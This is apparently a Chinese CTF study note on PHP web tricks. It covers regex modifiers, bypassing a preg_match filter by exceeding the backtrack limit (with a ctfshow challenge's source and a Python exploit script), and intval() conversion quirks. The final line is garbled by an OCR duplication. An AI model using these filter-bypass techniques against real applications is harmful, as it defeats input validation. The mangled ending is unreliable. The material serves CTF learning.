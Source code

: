 `u`：是否可以正确处理大于`\uFFF`的`Unicode`字符。

`y`：是否只能从`lastIndex`属性规定的位置开始匹配，匹配失败不会尝试后面的字符。

`x`：忽略空白。

`A`：强制从开头匹配。

`D`：如果使用`$`限制结尾字符，则不允许结尾有换行。

*   最大回溯次数：默认为100万

为了防止正则表达式拒绝服务攻击，由`pcre.backtrack_limit`设置了回溯次数上限。假如回溯次数超过100万，则`preg_match`不再返回1或0，而直接返回`false`。

示例如下：

    include("flag.php");
    if(isset($_POST['f'])){
        $f = $_POST['f'];

        if(preg_match('/.+?ctfshow/is', $f)){
            die('bye!');
        }
        if(stripos($f, 'ctfshow') === FALSE){
            die('bye!!');
        }

        echo $flag;

    }

阅读代码，大意即是传入的字符需拥有`ctfshow`这个字符串，但同时正则表达式又对字符串进行了一些限制。由于`.+?`会匹配相同的字符串无限次，因此可以回溯绕过。

脚本编写如下：

    import requests
    url = 'http://7aa03b05-6a9a-4777-9548-7ac30f8799ed.challenge.ctf.show/'
    response = requests.post(url, data={'f':250000*'aaaa'+'ctfshow'})
    print(response.text)

注意的是一般来说请求的字符长度也是有限制的，因此不要写得太大。

## intval()函数

*   函数原型

    intval ( mixed $var [, int $base = 10 ] ) : int

将字符串按照给定的进制输出。

首先，当传入的`$var`是字符串类型时，若没有指定`$base`，默认按照十进制处理，传入十六进制数可能无法处理。当`$var`是数字类型时也可以直接处理十六进制等。来个例子：

    echo intval('0xa');
    // 上面输出0，因为没有指定进制，按照输出十进制处理
    echo intval('0xa', 10);
    // 上面输出10

*   返回结果相同但字符串不相同的情况

    intval('4476.0')===4476    // 小数点  
    intval('+4476.0')===4476   // 正负号
    intval('4476e0')===4476    // 科学计数法
    intval('0x117c')===4476    // 16进制
    intval('010574')===4476    // 8进制
    intval(' 010574')===4476   
    // 8进制+空格xxxxxxxxxx intval(intval('4476.0')===4476    小数点  intval('+4476.0')===4476   正负号intval('4476e0')===4476    科学计数法intval('0x117c')===4476    16进制intval('010574')===4476    8进制intval(' 010574')===4476   8进制+空格)php
